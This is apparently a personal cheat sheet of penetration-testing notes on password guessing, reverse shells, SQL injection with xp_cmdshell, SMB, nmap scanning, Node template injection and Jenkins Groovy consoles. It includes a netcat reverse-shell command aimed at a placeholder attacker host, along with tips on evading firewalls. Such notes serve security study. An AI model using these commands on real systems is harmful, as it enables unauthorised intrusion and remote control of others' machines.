 # general
- when there are only 5 password attempts or so, we try the top 5 for common user names (admin)
## reverse shell
- if the target machine doesn't have `netcat` or access to the internet, you can run `python3 -m http.server 80` on the attacker machine to server binary files
- running `nc -e cmd.exe ATTACKER_IP PORT` on the target will send shell I/O to the attacker listening on `PORT`
# sql 
## injection
- some sql injections can actually log you in if they are creating a session based on the results of a query and input fields are added to the query via template strings
## t-sql
- `sp_configure` allows you to change global settings for the sql server. `reconfigure` needs to be ran to apply the changes
- `xp_cmdshell` spawns a Windows command shell and returns command output as rows
## smb
- smb will mount a drive to your machine to perform file operations on
- `$` represents a hidden share and typical remote clients will not present it. every administrative share is hidden, but anyone can create a hidden share. administrative shares are automatically created
- network shares can be accessed via smb in Windows file explorer with `\\[server_name]\`
- on Mac it can be accessed with Finder, Go, "Connect To Server"
## ftp
- ftp allows you to download specific files
- `Administrator` is the default account for Windows Servers
  - this presents a problem for `xfreerdp` which picks the default username as `root`
- you need an X server such as `xquartz` running in order to use something like rdp on a unix based machine
- `telnet` runs on port 23 and is considered a less secure remoting protocol
**dir busting** - enumerating the directories of a website which return web objects
## web
- `gobuster` is a popular dir buster with capabilities to accept wordlists (from say `SecLists`), file extensions
- `-scheme:chrome-extension` should hide all the noise from bitwarden
## `nmap`
- `nmap` can be used to find which services are running on a port
- `nmap -sC` will use a default set of scripts to scan a target
- repeated firewall blocks will raise suspicion, so it's important to bypass them early
  - there is a discovery phase where `nmap` will `ping` for active devices. this is usually blocked by firewalls
  - any information discovered should documented to not overload firewall with repeated commands. enumeration should be tried again however on privilege escaltion
## `node`
- Burp Suite decoder tab is useful to encode query parameters for template injection for example
  - careful writing code inside this tab, you may miss stupid things like closing `"` or other syntax errors
- `require` function appears to be global but it is not
- `process` is global and returns an object which contains a reference to `mainModule`
## `jenkins`
- groovy is an extremely powerful scripting language which has java like syntax
- accessing a groovy console, at the `/script` directory of the web instance, is essentially access to the host machine (reverse shell capabilities)